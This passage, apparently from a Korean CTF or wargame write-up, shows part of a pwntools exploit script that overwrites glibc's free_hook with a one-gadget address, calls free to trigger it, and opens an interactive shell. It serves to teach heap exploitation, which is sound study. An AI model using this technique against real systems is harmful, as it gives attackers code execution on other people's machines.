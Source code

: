 ```python
# [2] Overwrite `free_hook` with `og`, one-gadget address
p.recvuntil('To write: ')
p.sendline(str(free_hook).encode())
p.recvuntil('With: ')
p.sendline(str(og).encode())

# [3] Exploit
p.recvuntil('To free: ')
p.sendline(str(0x31337).encode()) # 아무 값이나 입력해도 상관 없음

p.interactive()
```